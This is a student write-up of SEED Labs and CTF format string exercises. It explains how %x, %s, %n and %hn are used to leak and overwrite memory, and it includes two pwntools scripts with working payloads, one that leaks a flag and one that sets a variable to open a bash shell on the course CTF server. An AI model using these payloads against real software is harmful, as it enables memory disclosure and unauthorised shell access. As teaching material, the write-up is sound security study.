# **Week #6**

## **SEEDs Lab**

### **Task 1**

- Compile the given server that has the format string vulnerability
- Send 'hello' message to the vulnerable server and see the messages printed out by the server

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

- 'Crash' the program by providing a string of %s as input to the program

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### **Task 2: Print Out the Server Program's Memory**

### **Task 2.A: Stack Data**

- To print out the stack data, considering we have a format string vulnerability in myprintf function, we just need to echo to the server the parser %8x, so we can find out the memory address of the stack values. Therefore, to identifie where exactly the buffer starts we enter 4 random caracters that can be easily recognized by us, in our case we used @@@@ (ASCII value = 40404040), that way we can find exactly the buffer size. 

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### **Task 2.B : Heap Data**

- To print out the heap data, we store the address of the variable in heap memory **_secret message_**, using the format string vulnerability, by passing the variable memory address onto the stack,  and then echoing %8x _(buffer size-1)_-times, followed by an %s so that it reads the stored memory address and then gets the value from it.

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

### **Task 3.A**

- **Change the target variables's value**

Terminal 1 | Terminal 2
:---------:|:---------:
 | 


- By providing the above input to the server, by passing the target variable memory address, we change the target variable's value from 0x11223344 to 0x0000023c. This happens because we have printed out 572 characters (71 * 8 + 4) and upon entering %n at address we stored in the stack we change target variable's value.

### **Task 3.B**

- **Change the target variables's value to 0x5000**

Terminal 1 | Terminal 2
:---------:|:---------:
 | 


- This time, we have to print out an exact number of bytes in order to obtain an exact target variable's value which is 20480 ( 0x5000 = 20480dec).

### **Task 3.C**

- **Change the target variables's value to 0xAABBCCDD**

Terminal 1 | Terminal 2
:---------:|:---------:
 | 


- This time, we used %hn instead of %n because the value 0xAABBCCDD is much bigger than 0x5000.


## **CTF 6**

### **Task 1**

#### **Checksec**

- No address randomization
- No regions in the memory with RWX permissions
- Cannaries present in the stack
- Architecture is x86
- Stack does not have execute permissions 


#### **Program Analysis**

- Where? -> Line 27, print buffer, enables for a print without formatting string
- What? -> We can use this to access contents of the memory
- How? -> By utilizing a formatting string in the print itself, the contents of the memory can be printed, including the value of flag

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

#### **Attack**

- First, we ran gdb (debugger) on the program in order to find the address of the flag buffer. Because there is no PIE (address randomization), the addresses are maintained through executions


- Secondly, we inserted a string where we passed first the address of flag and then a format string. This results of the address being written in memory and the format string, fetching the next value in memory, printing the contents pointed to by this address, the flag


**Python Script**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: $ gdb attach 9717 )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)
##0x804c060
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08.%s.%p.%p.%p.%p.")
p.interactive()
```


### **Task 2**

#### **Checksec**

- No address randomization
- No regions in the memory with RWX permissions
- Cannaries present in the stack
- Architecture is x86
- Stack does not have execute permissions 

(Same as first task)




#### **Program Analysis**

- What changed? The program is different, as the flag is no longer in a buffer. The vulnerability is still present but the flag cannot be printed directly. There is access to the bash if the key value is changed
- Still vulnerable but in a different way
- We can abuse the format string vulnerability present in line 14 by utilizing it to alter the value of key, giving us access to the bash

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```
#### **Attack**

- First we used gdb (debugger) to find key's address in the stack



- Then, we used %n string formatting to insert into a variable the number of bytes printed and forced this number to be 0xbeef. The variable to which we saved this value was the one pointed to by the address we got from gdb (key)


- Finally, we got access to a remote bash, where we were able to print the contents of flag.txt and catch the flag 



**Python Script**
``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: $ gdb attach 9717 )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"@@@@\x34\xC0\x04\x08%.48871x%n")
p.interactive()
```